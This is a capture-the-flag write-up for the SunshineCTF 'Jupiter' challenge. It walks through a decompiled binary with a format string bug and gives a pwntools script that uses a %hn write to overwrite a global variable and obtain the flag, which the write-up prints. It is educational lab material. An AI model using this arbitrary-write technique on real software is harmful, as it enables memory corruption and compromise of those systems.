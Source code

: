 # Jupiter

```
Jupiter just announced their new Brightline junction... the ECHO TERMINAL!!!

    jupiter

nc chal.sunshinectf.games 25607 
```

Decompile in IDA:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD buf[12]; // [rsp+0h] [rbp-60h] BYREF

  buf[11] = __readfsqword(0x28u);
  memset(buf, 0, 88);
  printf("Welcome to Jupiter's echo terminal\nEnter data at your own risk: ");
  read(0, buf, 0x57u);
  dprintf(2, (const char *)buf);
  if ( secret_key == 0x1337C0DE )
    read_flag();
  return 0;
}
```

The secret_key is located at `0x404010` with inital value of `0x0BADC0DE`:

```
.data:0000000000404010                 public secret_key
.data:0000000000404010 secret_key      dd 0BADC0DEh            ; DATA XREF: main+B3↑r
.data:0000000000404010 _data           ends
.data:0000000000404010
```

To get flag, we need to set `secret_key` to `0x1337C0DE`, se we need to write 2 bytes `0x1337` to `0x404012`, which is the higher 2 bytes of `secret_key`.

Next, we use the printf vulnerability to do the write. First, we identify the format string placement on the stack

```shell
$ ./jupiter
Welcome to Jupiter's echo terminal
Enter data at your own risk: %p%p%p%p%p%p%p%p
0x110xc(nil)(nil)0x70257025702570250x70257025702570250xa(nil)
```

From the fifth parameter, the format string becomes the parameter. So to write `0x1337`, we can:

1. write `0x1337` chars
2. write the number of printed chars (which is exactly `0x1337`) to the address specified by 7th parameter (starting from `&buf[16]`)
3. place the address `0x404012` to where the 7th parameter resides

Attack script:

```python
from pwn import *

elf = ELF("./jupiter")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

# secret_key at 0x404010
# 0x0BADC0DE -> 0x1337C0DE
# write 0x1337 to 0x404012
p = remote("chal.sunshinectf.games", 25607)
# p = process(["./jupiter"])
# gdb.attach(p)
# pause()
p.sendline(f"%{0x1337}c%7$hn".encode() + b"A" * 5 + p64(0x404012))
p.interactive()
```

Flag: `sun{F0rmat_str!ngs_4re_sup3r_pOwerFul_r1gh7??}`.
